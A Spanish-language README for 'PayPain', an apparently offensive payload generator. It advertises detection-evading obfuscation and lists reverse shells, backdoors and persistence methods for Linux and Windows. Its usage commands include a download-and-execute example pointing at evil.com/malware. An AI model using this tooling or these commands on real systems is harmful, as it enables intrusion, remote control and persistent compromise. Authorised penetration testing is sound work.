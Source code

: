 # PayPain

## Generador de Payloads Ofuscados para Pruebas de Seguridad

![PayPain Banner](images\\banner.png)

## Descripción

PayPain es una herramienta de generación de payloads diseñada para profesionales de seguridad informática. Facilita la creación de diversos tipos de cargas útiles para pruebas de penetración en sistemas Linux y Windows.

## ⚠️ Advertencia Legal

Esta herramienta está diseñada EXCLUSIVAMENTE para fines educativos y pruebas de seguridad autorizadas. El uso indebido de esta herramienta para acceder a sistemas sin autorización es ilegal y puede resultar en consecuencias legales graves. El autor no se hace responsable del mal uso de esta herramienta.

## Características

- Generación de múltiples tipos de payloads (reverse shells, bind shells, backdoors, etc.)
- Soporte para sistemas Linux y Windows
- Ofuscación automática para evadir detecciones básicas
- Opciones de persistencia
- Interfaz de línea de comandos intuitiva

## Requisitos

- Python 3.6+
- Bibliotecas de Python:
  - colorama
  - pyfiglet
  - argparse

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/Pr1or95/paypain.git
cd paypain

# Instalar dependencias
pip install -r requirements.txt
```

## Uso

### Estructura básica del comando

```bash
python Paypain.py -i <IP> -p <PUERTO> -t <TIPO_PAYLOAD> -s <SISTEMA_OPERATIVO> -o <ARCHIVO_SALIDA>
```

### Ver ayuda

```bash
python Paypain.py --help
```

### Listar payloads disponibles

```bash
# Para Linux
python Paypain.py -l -s linux

# Para Windows
python Paypain.py -l -s windows
```

### Describir un payload específico

```bash
python Paypain.py -d reverse_shell -s linux
```

### Ejemplos de uso

#### Generar un reverse shell para Linux

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t reverse_shell -s linux -o payload.sh
```

#### Generar un backdoor PowerShell para Windows

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t powershell_backdoor -s windows -o payload.ps1
```

#### Generar un payload para descargar y ejecutar un archivo

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t download_execute -s linux -o payload.sh -u http://evil.com/malware
```

## Payloads Disponibles

### Linux
- **Reverse_shell**: shell inverso que se conecta a una máquina atacante
- **Bind_shell**: shell que se vincula a un puerto en la máquina objetivo y espera conexiones
- **Download_execute**: Descarga y ejecuta un archivo de una URL remota
- **Python_backdoor**: backdoor en Python que establece una conexión con la máquina atacante
- **PHP_backdoor**: backdoor en PHP que establece una conexión con la máquina atacante
- **Bash_backdoor**: backdoor en Bash que intenta conectarse periódicamente a la máquina atacante
- **Cron_persistence**: establece una tarea cron para ejecutar periódicamente un shell inverso

### Windows
- **Reverse_shell**: shell inverso en PowerShell que se conecta a una máquina atacante
- **Bind_shell**: shell PowerShell que se vincula a un puerto y espera conexiones
- **Download_execute**: descarga y ejecuta un script PowerShell de una URL remota
- **Powershell_backdoor**: backdoor en PowerShell que intenta conectarse periódicamente a la máquina atacante
- **VBS_backdoor**: backdoor en VBScript que ejecuta un payload PowerShell oculto
- **Registry_persistence**: establece persistencia mediante el registro de Windows para ejecutar un payload al inicio de sesión
- **WMI_persistence**: establece persistencia mediante tareas programadas de Windows

## Capturas de Pantalla

![Imagen 1](images\img1.png)
![Imagen 2](images\img2.png)
![Imagen 3](images\img3.png)

## Contribución

Las contribuciones son bienvenidas. Por favor, sigue estos pasos:

1. Haz un fork del repositorio
2. Crea una nueva rama (`git checkout -b feature/nueva-funcionalidad`)
3. Haz commit de tus cambios (`git commit -am 'Añadir nueva funcionalidad'`)
4. Sube los cambios a tu rama (`git push origin feature/nueva-funcionalidad`)
5. Abre un Pull Request
